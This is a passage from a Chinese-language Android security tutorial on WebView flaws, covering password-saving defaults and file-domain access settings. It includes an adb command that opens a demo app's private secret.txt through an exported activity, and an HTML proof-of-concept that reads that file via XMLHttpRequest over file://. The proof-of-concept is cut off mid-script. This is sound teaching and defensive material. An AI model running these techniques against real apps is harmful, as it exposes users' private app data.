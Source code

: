 Android 4.3（API 18）以下，WebView 会默认开启网页密码保存功能，在用户输入密码时会弹出提示框询问用户是否保存密码，如果选择是，则会将密码保存至沙箱数据库目录下的`webview.db`文件中，设备被root情况下会导致敏感信息泄漏

需显式通过`WebSettings.setSavePassword(false)`关闭密码保存的功能，Android 4.3开始此方法被弃用

##### 5.2 File域控制不严格漏洞【一】

WebView 没有对 `file:///` 类型 url 进行限制，导致攻击者可以结合**组件导出**等漏洞利用 WebView 通过 file 协议加载外部恶意文件，进行远程恶意代码执行等操作

File域的相关配置API主要是以下三个

```java
// 是否允许 webview 使用 file 协议，默认为true
webView.getSettings().setAllowFileAccess();
// 是否允许通过 file 协议加载的 JS 读取其他的本地文件，Android 4.1之前默认true
webView.getSettings().setAllowFileAccessFromFileURLs();
// 是否允许通过 file 协议加载的 JS 访问其他源，包括http/https，Android 4.1之前默认true
// 此设置的允许会覆盖上一个设置的不允许
webView.getSettings().setAllowUniversalAccessFromFileURLs();
```

`setAllowFileAccess(true)`开启File域访问允许 WebView 直接加载本地文件，包括系统目录（下图一）

```java
webView.loadUrl("file:///system/etc/hosts")
```

如果目标应用组件导出，且 Intent 未对传入的数据进行过滤，攻击者可以使用 WebView 加载沙箱文件进行跨进程访问（下图二）

```java
Intent intent = getIntent();
if (intent != null) {
  Uri uri = intent.getData();
  if (uri != null) {
    url = uri.toString();
  }
}
webView.loadUrl(url);
```

```bash
adb shell am start -n com.willing.jsdemo/.MainActivity -d file:///data/data/com.willing.jsdemo/files/secret.txt
```

关闭File域访问则无法通过file协议加载本地文件（下图三），原生Chrome浏览器则默认禁用File域访问（下图四）

<img src="./screenshot/access_sys_file.png" alt="access_sys_file" style="zoom:18%;" /><img src="./screenshot/access_sandbox_file.png" alt="access_sandbox_file" style="zoom:18%;" /><img src="./screenshot/access_denied.png" alt="access_denied" style="zoom:18%;" /><img src="./screenshot/access_denied_chrome.png" alt="access_denied_chrome" style="zoom:18%;" />

`setAllowFileAccessFromFileURLs(true)`允许通过file协议加载的JS读取其他的本地文件，构造攻击脚本

```html
<!DOCTYPE html>
<html>
<head>
    <meta charset="utf-8">
    <title>Attack Demo</title>
    This is a html page of attack demo.
    <script>
    function readFile() {
        var file = "file:///data/data/com.willing.jsdemo/files/secret.txt";
        var xmlHttp = new XMLHttpRequest();
        xmlHttp.onreadystatechange = function() {
            if (xmlHttp.readyState == 4) {
                alert(xmlHttp.responseText);
            }
        }
        xmlHttp.open("GET", file, true);
        xmlHttp.send();
    }
    readFile();
```